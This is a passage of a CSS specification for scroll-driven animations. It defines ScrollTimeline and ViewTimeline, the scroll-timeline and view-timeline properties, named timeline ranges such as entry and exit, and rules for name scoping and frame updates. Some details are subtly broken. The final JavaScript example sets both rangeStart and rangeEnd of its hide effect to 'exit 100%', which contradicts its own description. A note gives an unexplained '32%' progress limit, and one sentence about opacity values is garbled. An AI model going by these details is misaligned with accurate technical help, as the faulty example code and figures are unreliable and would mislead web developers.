> **Issue:** While 0% will usually represent the scroll container’s initial scroll position, it might not depending on its content distribution. See [CSS Box Alignment 3 § 5.3 Alignment Overflow and Scroll Containers](#css-align-3:overflow-scroll-position). Is this what we want?

> **Issue:** Add a note about whether `currentTime` can be negative or > 100%.

****`ScrollTimeline(options)`****

: Creates a new `ScrollTimeline` object using the following procedure:

  1. Let *timeline* be the new `ScrollTimeline` object.
  2. Set the `source` of *timeline* to:

     **If the `source` member of *options* is present,**

     : The `source` member of *options*.

     **Otherwise,**

     : The `scrollingElement` of the `Document` associated with the `Window` that is the current global object.
  3. Set the `axis` property of *timeline* to the corresponding value from *options*.

If the `source` of a `ScrollTimeline` is an element whose principal box does not exist or is not a scroll container in the timeline’s axis, or if there is no scrollable overflow, then the `ScrollTimeline` is inactive.

A `ScrollTimeline`’s `duration` is 100%.

The values of `source` and `currentTime` are both computed when either is requested or updated.

> **Example:** In the following example, a `ScrollTimeline` instance that tracks the document viewport in the block direction is created:
>
> ```js
> const myTimeline = new ScrollTimeline({
>   source: document.documentElement,
> });
> ```
>
> The created `ScrollTimeline` instance can be used to animate an element as follows:
>
> ```js
> const progressbar = document.querySelector('#progress');
>
> progressbar.animate(
>   {
>     transform: ['scaleX(0)', 'scaleX(1)'],
>   },
>   {
>     fill: 'forwards',
>     timeline: myTimeline,
>   }
> );
> ```
>
> This makes the targeted `#progress` element animate from a `scaleX(0)` transform when at the top of the page to a `scaleX(1)` when at the bottom of the page.

> **Example:** In this example, the `.scroller` element is the element whose scroll position drives the progress of the timeline. The timeline is set to track its scroll offset in the inline direction.
>
> ```js
> const scroller = document.querySelector('.scroller');
>
> const myTimeline = new ScrollTimeline({
>   source: scroller,
>   axis: 'inline',
> });
> ```
>
> Scrolling the root scroller has no effect here, it is only when you scroll the `.scroller` element in the inline direcion that the animation that uses the timeline will tick.

#### 2.3. Named Scroll Progress Timelines {#scroll-animations-1:scroll-timelines-named}

Scroll progress timelines can also be defined on the scroll container itself, and then referenced by name by elements within the name’s scope (see [§ 4.2 Named Timeline Scoping and Lookup](#scroll-animations-1:timeline-scoping)).

Such **named scroll progress timelines** are declared in the coordinated value list constructed from the longhands of the `scroll-timeline` shorthand property, which form a coordinating list property group with `scroll-timeline-name` as the coordinating list base property. See [CSS Values 4 § A Coordinating List-Valued Properties](#css-values-4:linked-properties).

> **Example:** In the following example the `.subject`’s animation is driven by the named scroll progress timeline named `--my-scroller`. This timeline is created on its `.scroller` ancestor and is set up to measure progress along the inline axis:
>
> ```css
> .scroller {
>   scroll-timeline-name: --my-scroller;
>   scroll-timeline-axis: inline;
> }
>
> .scroller .subject {
>   animation: grow linear both;
>   /* Use the '--my-scroller' scroll progress timeline to drive the animation */
>   animation-timeline: --my-scroller;
> }
> ```
>
> As you scroll horizontally through the `.scroller` element, the `grow` animation on the contained `.subject` element will move forwards or backwards in direct response.

##### 2.3.1. Naming a Scroll Progress Timeline: the `scroll-timeline-name` property {#scroll-animations-1:scroll-timeline-name}

| Field | Value |
| --- | --- |
| Name: | **scroll-timeline-name** |
| [Value:](#css-values-4:value-defs) | [ none \| `<dashed-ident>` ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item either a CSS identifier or the keyword `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies names for the named scroll progress timelines associated with this element.

##### 2.3.2. Axis of a Scroll Progress Timeline: the `scroll-timeline-axis` property {#scroll-animations-1:scroll-timeline-axis}

| Field | Value |
| --- | --- |
| Name: | **scroll-timeline-axis** |
| [Value:](#css-values-4:value-defs) | [ block \| inline \| x \| y ]# |
| [Initial:](#css-cascade-6:initial-values) | block |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | a list of the keywords specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies the axis of any named scroll progress timelines sourced from this scroll container. If this box is not a scroll container in the specified axis, then the corresponding named scroll progress timeline is inactive.

Values are as defined for `scroll()`.

##### 2.3.3. Scroll Timeline Shorthand: the `scroll-timeline` shorthand {#scroll-animations-1:scroll-timeline-shorthand}

| Field | Value |
| --- | --- |
| Name: | **scroll-timeline** |
| [Value:](#css-values-4:value-defs) | [ `<'scroll-timeline-name'>` `<'scroll-timeline-axis'>`? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | not animatable |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `scroll-timeline-name` and `scroll-timeline-axis` in a single declaration.

> **Example:** The following two rules are equivalent:
>
> ```css
> .scroller {
>   scroll-timeline-name: --my-scroller;
>   scroll-timeline-axis: inline;
> }
> ```
>
> ```css
> .scroller {
>   scroll-timeline: --my-scroller inline;
> }
> ```

### 3. View Progress Timelines {#scroll-animations-1:view-timelines}

Often animations are desired to start and end during the portion of the scroll progress timeline that a particular box (the **view progress subject**) is in view within the scrollport. **View progress timelines** are segments of a scroll progress timeline that are scoped to the scroll positions in which any part of the subject element’s principal box intersects its nearest ancestor scrollport (or more precisely, the relevant view progress visibility range of that scrollport). The startmost such scroll position represents 0% progress, and the endmost such scroll position represents 100% progress; see [§ 3.2 Calculating Progress for a View Progress Timeline](#scroll-animations-1:view-timeline-progress).

> **Note:** The 0% and 100% scroll positions are not always reachable, e.g. if the box is positioned at the start edge of the scrollable overflow rectangle, it might not be possible to scroll to < 32% progress.

View progress timelines can be referenced anonymously using the `view()` functional notation or by name (see [§ 4.2 Named Timeline Scoping and Lookup](#scroll-animations-1:timeline-scoping)) after declaring them using the `view-timeline` properties on the view progress subject. In the Web Animations API, they can be represented anonymously by a `ViewTimeline` object.

#### 3.1. View Progress Timeline Ranges {#scroll-animations-1:view-timelines-ranges}

View progress timelines define the following named timeline ranges:

****cover****

: Represents the full range of the view progress timeline:

  - 0% progress represents the latest position at which the start border edge of the element’s principal box coincides with the end edge of its view progress visibility range.
  - 100% progress represents the earliest position at which the end border edge of the element’s principal box coincides with the start edge of its view progress visibility range.

****contain****

: Represents the range during which the principal box is either fully contained by, or fully covers, its view progress visibility range within the scrollport.

  - 0% progress represents the earliest position at which either:

    - the start border edge of the element’s principal box coincides with the start edge of its view progress visibility range.
    - the end border edge of the element’s principal box coincides with the end edge of its view progress visibility range.
  - 100% progress represents the latest position at which either:

    - the start border edge of the element’s principal box coincides with the start edge of its view progress visibility range.
    - the end border edge of the element’s principal box coincides with the end edge of its view progress visibility range.

****entry****

: Represents the range during which the principal box is entering the view progress visibility range.

  - 0% is equivalent to 0% of the `cover` range.
  - 100% is equivalent to 0% of the `contain` range.

****exit****

: Represents the range during which the principal box is exiting the view progress visibility range.

  - 0% is equivalent to 100% of the `contain` range.
  - 100% is equivalent to 100% of the `cover` range.

****entry-crossing****

: Represents the range during which the principal box crosses the end border edge

  - 0% progress represents the latest position at which the start border edge of the element’s principal box coincides with the end edge of its view progress visibility range.
  - 100% progress represents the earliest position at which the end border edge of the element’s principal box coincides with the end edge of its view progress visibility range.

****exit-crossing****

: Represents the range during which the principal box crosses the start border edge

  - 0% progress represents the latest position at which the start border edge of the element’s principal box coincides with the start edge of its view progress visibility range.
  - 100% progress represents the earliest position at which the end border edge of the element’s principal box coincides with the start edge of its view progress visibility range.

****scroll****

: Represents the full range of the scroll container on which the view progress timeline is defined.

  - 0% progress represents the startmost scroll position of the scroll container underlying the view progress timeline.
  - 100% progress represents the endmost scroll position of the scroll container underlying the view progress timeline.

> **Issue:** Insert diagrams.

In all cases, the writing mode used to resolve the start and end sides is the writing mode of the relevant scroll container. [Transforms](#css-transforms-2) are ignored, but relative and absolute positioning are accounted for.

> **Note:** For sticky-positioned boxes the 0% and 100% progress conditions can sometimes be satisfied by a range of scroll positions rather than just one. Each range therefore indicates whether to use the earliest or latest qualifying position.

[CSS-POSITION-3] [CSS-TRANSFORMS-1]

#### 3.2. Calculating Progress for a View Progress Timeline {#scroll-animations-1:view-timeline-progress}

Progress (the current time) in a view progress timeline is calculated as: *distance* ÷ *range* where:

- *distance* is the current scroll offset minus the scroll offset corresponding to the start of the `cover` range
- *range* is the scroll offset corresponding to the end of the `cover` range minus the scroll offset corresponding to the start of the `cover` range

If the 0% position and 100% position coincide (i.e. the denominator in the current time formula is zero), the timeline is inactive.

In paged media, view progress timelines that would otherwise reference the document viewport are also inactive.

#### 3.3. Anonymous View Progress Timelines {#scroll-animations-1:view-timelines-anonymous}

##### 3.3.1. The `view()` notation {#scroll-animations-1:view-notation}

The **view()** functional notation can be used as a `<single-animation-timeline>` value in `animation-timeline` and specifies a view progress timeline in reference to the nearest ancestor scroll container that’s scrollable in the specified axis. Its syntax is

```css
<view()> = view( [ <axis> || <'view-timeline-inset'> ]? )
```

By default, `view()` references the block axis; as for `scroll()`, this can be changed by providing an explicit `<axis>` value.

The optional `<'view-timeline-inset'>` value provides an adjustment of the view progress visibility range, as defined for `view-timeline-inset`.

> **Example:** In the following example, each direct child of the `.scroller` element will reveal itself as it crosses the scrollport.
>
> ```css
> @keyframes reveal {
>   from { opacity: 0; }
> }
>
> .scroller > * {
>   animation: reveal linear both;
>   animation-timeline: view();
> }
> ```
>
> For every element matched by the selector, a view progress timeline gets created to drive the animation. Because no arguments are passed into `view()` it uses the default values for `<axis>` and `<'view-timeline-inset'>`, thus tracking its scroll position in the block axis.
>
> With the keyframes driven by the view progress timeline, the element will be at `opacity: 0` when it is about to enter the scrollport, and at `opacity: 1` when it has just left the scrollport. Any scroll position in between results in an interpolated value.
>
> > **Note:** Because matched elements can be positioned at different offsets within the scroller or can differ in size, every matched element gets its own unique view progress timeline.

Each use of `view()` corresponds to its own instance of `ViewTimeline` in the Web Animations API, even if multiple elements use `view()` to reference the same element with the same arguments.

##### 3.3.2. The `ViewTimeline` Interface {#scroll-animations-1:viewtimeline-interface}

```webidl
dictionary ViewTimelineOptions {
  required Element subject;
  ScrollAxis axis = "block";
  (DOMString or sequence<(CSSNumericValue or CSSKeywordValue)>) inset = "auto";
};

[Exposed=Window]
interface ViewTimeline : ScrollTimeline {
  constructor(ViewTimelineOptions options);
  readonly attribute Element subject;
  readonly attribute CSSNumericValue startOffset;
  readonly attribute CSSNumericValue endOffset;
};
```

A `ViewTimeline` is an `AnimationTimeline` that specifies a view progress timeline. It can be passed to the `Animation` constructor or the `animate()` method to link the animation to a view progress timeline.

****`subject`**,  of type Element, readonly**

: The element whose principal box’s visibility in the scrollport defines the progress of the timeline.

****`startOffset`**,  of type CSSNumericValue, readonly**

: Represents the starting (0% progress) scroll position of the view progress timeline as a length offset (in `px`) from the scroll origin. Null when the timeline is inactive.

****`endOffset`**,  of type CSSNumericValue, readonly**

: Represents the ending (100% progress) scroll position of the view progress timeline as a length offset (in `px`) from the scroll origin. Null when the timeline is inactive.

> **Note:** The values of `startOffset` and `endOffset` are relative to the scroll origin, not the physical top left corner. Depending on the writing mode of the scroll container, they therefore might not match `scrollLeft` or `scrollTop` values, for example in the horizontal axis in a right-to-left (`rtl`) writing mode.

Inherited attributes:

**`source` (inherited from `ScrollTimeline`)**

: The nearest ancestor of the `subject` whose principal box establishes a scroll container in the specified axis, whose scroll position drives the progress of the timeline.

**`axis` (inherited from `ScrollTimeline`)**

: Specifies the axis of scrolling that drives the progress of the timeline. See `<axis>`, above.

**`currentTime` (inherited from `AnimationTimeline`)**

: Represents the current progress of the view progress timeline as a percentage `CSSUnitValue` representing its scroll container’s scroll progress at that position. Null when the timeline is inactive.

****`ViewTimeline(options)`****

: Creates a new `ViewTimeline` object using the following procedure:

  1. Let *timeline* be the new `ViewTimeline` object.
  2. Set the `subject` and `axis` properties of *timeline* to the corresponding values from *options*.
  3. Set the `source` of *timeline* to the `subject`’s nearest ancestor scroll container element that’s scrollable in the specified axis.
  4. If a `DOMString` value is provided as an inset, parse it as a `<'view-timeline-inset'>` value; if a sequence is provided, the first value represents the start inset and the second value represents the end inset. If the sequence has only one value, it is duplicated. If it has zero values or more than two values, or if it contains a `CSSKeywordValue` whose `value` is not "auto", throw a TypeError.

     These insets define the `ViewTimeline`’s view progress visibility range.

If the `source` or `subject` of a `ViewTimeline` is an element whose principal box does not exist, or if its nearest ancestor scroll container has no scrollable overflow or is not scrollable in the specified axis (or if there is no such ancestor, e.g. in print media), then the `ViewTimeline` is inactive.

The values of `subject`, `source`, and `currentTime` are all computed when any of them is requested or updated.

> **Example:** In the following example, each child of the `.scroller` element will reveal itself as it crosses the scrollport.
>
> ```js
> document.querySelectorAll('.scroller > *').forEach(childElement => {
>   const timeline = new ViewTimeline({
>     subject: childElement,
>     axis: 'block',
>   });
>
>   childElement.animate({
>     opacity: [ 0, 1 ],
>   }, {
>     fill: 'both',
>     timeline,
>   });
> });
> ```
>
> In a vertical scroller, this results in an element going fully transparent (`opacity: 0`) when its about to enter the scroller from the bottom edge of the scroller to being fully opaque (`opacity: 1`) when it has completely entered the scroller.
>
> Scroll positions in between result in an opacity `0` and `1`.

#### 3.4. Named View Progress Timelines {#scroll-animations-1:view-timelines-named}

View progress timelines can also be defined declaratively and then referenced by name by elements within the name’s scope (see [§ 4.2 Named Timeline Scoping and Lookup](#scroll-animations-1:timeline-scoping)).

Such **named view progress timelines** are declared in the coordinated value list constructed from the `view-timeline-*` properties, which form a coordinating list property group with `view-timeline-name` as the coordinating list base property. See [CSS Values 4 § A Coordinating List-Valued Properties](#css-values-4:linked-properties).

> **Example:** This example behaves exactly the same [as the previous one](#scroll-animations-1:example-6a3831a1): each child of the `.scroller` element will reveal itself as it crosses the scrollport.
>
> The difference is that instead of using an [anonymous](#scroll-animations-1:view-timelines-anonymous) View progress timeline to drive the animation, it now uses a named view progress timeline that tracks the `.scroller`.
>
> ```css
> @keyframes reveal {
>   from { opacity: 0; }
> }
>
> .scroller {
>   view-timeline: --my-scroller block;
> }
>
> .scroller > * {
>   animation: reveal linear both;
>   animation-timeline: --my-scroller;
> }
> ```

##### 3.4.1. Naming a View Progress Timeline: the `view-timeline-name` property {#scroll-animations-1:view-timeline-name}

| Field | Value |
| --- | --- |
| Name: | **view-timeline-name** |
| [Value:](#css-values-4:value-defs) | [ none \| `<dashed-ident>` ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item either a CSS identifier or the keyword `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies names for the named view progress timelines associated with this element.

##### 3.4.2. Axis of a View Progress Timeline: the `view-timeline-axis` property {#scroll-animations-1:view-timeline-axis}

| Field | Value |
| --- | --- |
| Name: | **view-timeline-axis** |
| [Value:](#css-values-4:value-defs) | [ block \| inline \| x \| y ]# |
| [Initial:](#css-cascade-6:initial-values) | block |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | a list of the keywords specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

Specifies the axis of any named view progress timelines derived from this element’s principal box.

Values are as defined for `view()`.

##### 3.4.3. Inset of a View Progress Timeline: the `view-timeline-inset` property {#scroll-animations-1:view-timeline-inset}

| Field | Value |
| --- | --- |
| Name: | **view-timeline-inset** |
| [Value:](#css-values-4:value-defs) | [ [ auto \| `<length-percentage>` ]{1,2} ]# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the corresponding dimension of the relevant scrollport |
| [Computed value:](#css-cascade-6:computed) | a list consisting of two-value pairs representing the start and end insets each as either the keyword `auto` or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

Specifies an inset (positive) or outset (negative) adjustment of the scrollport when determining whether the box is in view when setting the bounds of the corresponding view progress timeline. The first value represents the start inset in the relevant axis; the second value represents the end inset. If the second value is omitted, it is set to the first. The resulting range of the scrollport is the **view progress visibility range**.

****auto****

: Indicates to use the value of `scroll-padding`.

****`<length-percentage>`****

: Like `scroll-padding`, defines an inward offset from the corresponding edge of the scrollport.

##### 3.4.4. View Timeline Shorthand: the `view-timeline` shorthand {#scroll-animations-1:view-timeline-shorthand}

| Field | Value |
| --- | --- |
| Name: | **view-timeline** |
| [Value:](#css-values-4:value-defs) | [ `<'view-timeline-name'>` [ `<'view-timeline-axis'>` \|\| `<'view-timeline-inset'>` ]? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `view-timeline-name`, `view-timeline-axis`, and `view-timeline-inset` in a single declaration.

### 4. Attaching Animations to Scroll-driven Timelines {#scroll-animations-1:scroll-driven-attachment}

Animations can be attached to scroll-driven timelines using the `animation-timeline` property (in CSS) or the `AnimationTimeline` parameters (in the Web Animations API). The timeline range to which their active interval is attached can also be further restricted to a particular timeline range (see [Attaching Animations to Timeline Ranges](#scroll-animations-1:named-range-animation-declaration)).

Time-based delays (`animation-delay`) get converted to their respective proportions as described in [Web Animations 2 § 2.3 Animations](#web-animations-2:animations)

#### 4.1. Finite Timeline Calculations {#scroll-animations-1:finite-attachment}

Unlike time-driven timelines, scroll-driven timelines are finite, thus scroll-driven animations are always attached to a finite attachment range—​which may be further limited by `animation-range` (see [Appendix A: Timeline Ranges](#scroll-animations-1:timeline-ranges)). The animation’s iterations (`animation-iteration-count`) are set within the limits of this finite range. If the specified duration is `auto`, then the remaining range is divided by its iteration count (`animation-iteration-count`) to find the used duration.

> **Note:** If the animation has an infinite iteration count, each iteration duration—​and the resulting active duration—​will be zero.

Animations that include absolutely-positioned keyframes (those pinned to a specific point on the timeline, e.g. using [named timeline range keyframe selectors](#scroll-animations-1:named-range-keyframes) in `@keyframes`) are assumed to have an iteration count of 1 for the purpose of finding those keyframes’ positions relative to 0% and 100%; the entire animation is then scaled to fit the iteration duration and repeated for each iteration.

> **Note:** It’s unclear what the use case might be for combining absolutely-positioned keyframes with iteration counts above 1; this at least gives a defined behavior. (An alternative, but perhaps weirder, behavior would be to take such absolutely-positioned keyframes “out of flow” while iterating the remaining keyframes.) The editors would be interested in hearing about any real use cases for multiple iterations here.

#### 4.2. Named Timeline Scoping and Lookup {#scroll-animations-1:timeline-scoping}

Timeline names are global by default: An element referring to a named scroll progress timeline or view progress timeline can find a target timeline defined on itself, defined on an element *before* itself in tree order, or defined on an element *after* itself in tree order.

The **target timeline** for a given element *element* referencing a timeline name *name* is:

**If *element* defines a timeline matching *name*,**

: That timeline.

**Otherwise, if *name* is [scoped](#scroll-animations-1:timeline-scope) by *element*, or if *element* is the document element,**

: The last defined timeline matching *name* among *element*’s flat tree descendants in flat tree order, or, if no such timeline exists, an inactive timeline.

**Otherwise,**

: The target timeline for *element*’s flat tree parent referencing *name*.

An element may only define one timeline per name: In case of a name conflict, names declared later in the naming property (`scroll-timeline-name`, `view-timeline-name`) take precedence, and scroll progress timelines take precedence over view progress timelines.

> **Example:** The element `#foo` defines a single scroll progress timeline in the block direction named `--t`, and no view progress timeline at all.
>
> ```css
> #foo {
>   scroll-timeline: --t inline, --t block;
>   view-timeline: --t;
> }
> ```

> **Example:** An element can refer to timelines bound to elements that are siblings, cousins, or even descendants. For example, the following creates an animation on an element that is linked to a scroll progress timeline defined by the subsequent sibling.
>
> ```
> <style>
>   @keyframes anim {
>     from { color: red; }
>     to { color: green; }
>   }
>
>   .root {
>     /* declares the scope of a '--scroller' timeline to reach all descendants */
>     timeline-scope: --scroller;
>   }
>
>   .root .animation {
>     animation: anim;
>     /* references the '--scroller' timeline for driving the progress of 'anim' */
>     animation-timeline: --scroller;
>   }
>
>   .root .animation + .scroller {
>     /* attaches a scroll progress timeline to the timeline named '--scroller' */
>     scroll-timeline: --scroller;
>   }
> </style>
> &hellip;
> <section class="root">
>   <div class="animation">Animating Box</div>
>   <div class="scroller">Scrollable Box</div>
> </section>
> ```

#### 4.3. Animation Events {#scroll-animations-1:events}

Scroll-driven animations dispatch all the same animation events as the more typical time-driven animations as described in [Web Animations § 4.5.18 Animation events](#web-animations-1:animation-events-section), [CSS Animations 1 § 5 Animation Events](#css-animations-1:events), and [CSS Animations 2 § 5.1 Event dispatch](#css-animations-2:event-dispatch).

> **Note:** When scrolling backwards, the `animationstart` event will fire at the *end* of the active interval, and the `animationend` event will fire at the start of the active interval. However, since the `finish` event is about entering the finished play state, it only fires when scrolling forwards.

### 5. Frame Calculation Details {#scroll-animations-1:frames}

#### 5.1. HTML Processing Model: Event loop {#scroll-animations-1:event-loop}

The ability for scrolling to drive the progress of an animation, gives rise to the possibility of **layout cycles**, where a change to a scroll offset causes an animation’s effect to update, which in turn causes a new change to the scroll offset.

To avoid such layout cycles, animations with a scroll progress timeline update their current time once during step 7.10 of the [HTML Processing Model](https://html.spec.whatwg.org/multipage/webappapis.html#processing-model-8) event loop, as step 1 of update animations and send events.

During step 7.14.1 of the [HTML Processing Model](https://html.spec.whatwg.org/multipage/webappapis.html#processing-model-8), any created scroll progress timelines or view progress timelines are collected into a **stale timelines** set. After step 7.14 if any timelines' named timeline ranges have changed, these timelines are added to the stale timelines set. If there are any stale timelines, they now update their current time and associated ranges, the set of stale timelines is cleared and we run an additional step to recalculate styles and update layout.

> **Note:** We check for layout changes after dispatching any `ResizeObserver`s intentionally to take programmatically sized elements into account.

> **Note:** As we only gather stale timelines during the first style and layout calculation, this can only directly cause one additional style recalculation. Other APIs which require another update should be checked in the same step and be updated at the same time.

> **Note:** Without this additional round of style and layout, initially stale timelines would remain stale (i.e. they would not have a current time) for the remainder of the frame where the timeline was created. This means that animations linked to such a timeline would not produce any effect value for that frame, which could lead to an undesirable initial "flash" in the rendered output.

> **Note:** This section has no effect on forced style and layout calculations triggered by `getComputedStyle()` or similar. In other words, initially stale timelines are visible as such through those APIs.

If the final style and layout update would result in a change in the time or scope (see `timeline-scope`) of any scroll progress timelines or view progress timelines, they will not be re-sampled to reflect the new state until the next update of the rendering.

Nothing in this section is intended to require that scrolling block on layout or script. If a user agent normally composites frames where scrolling has occurred but the consequences of scrolling have not been fully propagated in layout or script (for example, `scroll` event listeners have not yet run), the user agent may likewise choose not to sample scroll-driven animations for that composited frame. In such cases, the rendered scroll offset and the state of a scroll-driven animation may be inconsistent in the composited frame.

When updating timeline current time, the start time of any attached animation is conditionally updated. For each attached animation, run the procedure for calculating an auto-aligned start time.

### Appendix A: Timeline Ranges {#scroll-animations-1:timeline-ranges}

> **Issue:** This section should move to CSS-ANIMATIONS-2 and WEB-ANIMATIONS-2.

This appendix introduces the concepts of named timeline ranges and animation attachment ranges to [CSS Animations](#css-animations-2) and [Web Animations](#web-animations-2).

#### Named Timeline Ranges {#scroll-animations-1:named-ranges}

A **named timeline range** is a named segment of an animation timeline. The start of the segment is represented as 0% progress through the range; the end of the segment is represented as 100% progress through the range. Multiple named timeline ranges can be associated with a given timeline, and multiple such ranges can overlap. For example, the `contain` range of a view progress timeline overlaps with its `cover` range. Named timeline ranges are represented by the **`<timeline-range-name>`** value type, which indicates a CSS identifier representing one of the predefined named timeline ranges.

> **Note:** In this specification, named timeline ranges must be defined to exist by a specification such as [SCROLL-ANIMATIONS-1]. A future level may introduce APIs for authors to declare their own custom named timeline ranges.

#### Named Timeline Range Keyframe Selectors {#scroll-animations-1:named-range-keyframes}

Named timeline range names and percentages can be used to attach keyframes to specific progress points within the named timeline range. The CSS `@keyframes` rule is extended thus:

```css
<keyframe-selector> = from | to | <percentage [0,100]> | <timeline-range-name> <percentage>
```

where `<timeline-range-name>` is the CSS identifier that represents a chosen predefined named timeline range, and the `<percentage>` after it represents the percentage progress between the start and end of that named timeline range.

Keyframes are attached to the specified point in the timeline. If the timeline does not have a corresponding named timeline range, then any keyframes attached to points on that named timeline range are ignored. It is possible that these attachment points are outside the active interval of the animation; in these cases the automatic `from` (0%) and `to` (100%) keyframes are only generated for properties that don’t have keyframes at or earlier than 0% or at or after 100% (respectively).

> **Example:** In this example the range information is included directly in the `@keyframes` rule:
>
> ```css
> @keyframes animate-in-and-out {
>   entry 0%  {
>     opacity: 0; transform: translateY(100%);
>   }
>   entry 100%  {
>     opacity: 1; transform: translateY(0);
>   }
>
>   exit 0% {
>     opacity: 1; transform: translateY(0);
>   }
>   exit 100% {
>     opacity: 0; transform: translateY(-100%);
>   }
> }
>
> .scroller > * {
>   animation: linear animate-in-and-out;
>   animation-timeline: view();
> }
> ```
>
> It has the same outcome as the following snippet which uses two distinct sets of keyframes combined with `animation-range`
>
> ```css
> @keyframes animate-in {
>   0% { opacity: 0; transform: translateY(100%); }
>   100% { opacity: 1; transform: translateY(0); }
> }
>
> @keyframes animate-out {
>   0% { opacity: 1; transform: translateY(0); }
>   100% { opacity: 0; transform: translateY(-100%); }
> }
>
> .scroller > * {
>   animation: animate-in linear forwards,
>         animate-out linear forwards;
>   animation-timeline: view();
>   animation-range: entry, exit;
> }
> ```

#### Attaching Animations to Timeline Ranges {#scroll-animations-1:named-range-animation-declaration}

A set of animation keyframes can be attached in reference to an **animation attachment range**, restricting the animation’s active interval to that range of a timeline, with the `animation-range` properties. Delays (see `animation-delay`) are set within this restricted range, further reducing the time available for `auto` durations and `infinite` iterations.

> **Note:** `animation-range` can expand the attachment range as well as constrict it.

Any frames positioned outside the attachment range are used for interpolation as needed, but are outside the active interval and therefore dropped from the animation itself, effectively truncating the animation at the end of its attachment range.

```
range start┐             ╺┉┉active interval┉┉╸           ┌range end
┄┄┄┄┄┄┄┄┄┄┄├─────────────╊━━━━━━━━━━━━━━━━━━━╉───────────┤┄┄┄┄┄┄┄┄
           ╶┄start delay┄╴                   ╶┄end delay┄╴
                         ╶┄┄┄┄┄ duration┄┄┄┄┄╴
```

The `animation-range` properties are reset-only sub-properties of the `animation` shorthand.

These list-valued properties form a coordinating list property group with `animation-name` as the coordinating list base property.

> **Issue:** Define application to time-driven animations.

##### Examples {#scroll-animations-1:animation-range-examples}

> **Example:** In the following example, each direct child of the `.scroller` element reveals itself as it enters the scrollport instead of when entirely crossing it.
>
> This is achieved by setting `animation-range` to limit the active interval to the `entry` range instead of the default `cover` range:
>
> ```css
> @keyframes reveal {
>   from { opacity: 0; }
> }
>
> .scroller > * {
>   animation: reveal linear both;
>   animation-timeline: view();
>   animation-range: entry;
> }
> ```
>
> In a vertical scroller, this results in an element going fully transparent (`opacity: 0`) when its about to enter the scroller from the bottom edge of the scroller to being fully opaque (`opacity: 1`) when it has completely entered the scroller.
>
> Scroll positions in between result in an opacity `0` and `1`.

> **Example:** A variation of the previous example is to add both entry and exit effects, each linked to their own `animation-range`:
>
> ```css
> @keyframes reveal {
>   from { opacity: 0; }
>   to { opacity: 1; }
> }
> @keyframes hide {
>   from { opacity: 1; }
>   to { opacity: 0; }
> }
>
> .scroller > * {
>   animation: reveal linear both,
>              hide linear forwards;
>   animation-timeline: view();
>   animation-range: entry, exit;
> }
> ```
>
> The `reveal` effect is linked to the `entry` range while the `hide` effect is linked to the `exit` range.
>
> In a vertical scroller, when scrolling down, this results in the element going from `opacity: 0` to `opacity: 1` as it enters the scrollport from the bottom edge of the scroller.
>
> When continuing to scroll down, the element will eventually go from `opacity: 1` to `opacity: 0` as the subject exits the scrollport at the top edge of the scroller.

> **Example:** The Web Animations API equivalent of the previous example is the following:
>
> ```js
> document.querySelectorAll('.scroller > *').forEach(childElement => {
>   const timeline = new ViewTimeline({
>     subject: childElement,
>     axis: 'block',
>   });
>
>   // Reveal effect on entry
>   childElement.animate({
>     opacity: [ 0, 1 ],
>   }, {
>     fill: 'forwards',
>     timeline,
>     rangeStart: 'entry 0%',
>     rangeEnd: 'entry 100%',
>   });
>
>   // Hide effect on exit
>   childElement.animate({
>     opacity: [ 1, 0 ],
>   }, {
>     fill: 'forwards',
>     timeline,
>     rangeStart: 'exit 100%',
>     rangeEnd: 'exit 100%',
>   });
> });
> ```
>
> For every matched element, a single timeline tracking that element is created. The timeline tracks the element inside its scroller in the block direction.
>
> The timeline is used to drive two animations added to the element but the effects are only attached to a part of the range, thanks to the `rangeStart` and `rangeEnd` options.
>
> The first animation is attached to the `entry` range, animating the element from `opacity: 0` to `opacity: 1` as it enters the scrollport.
>
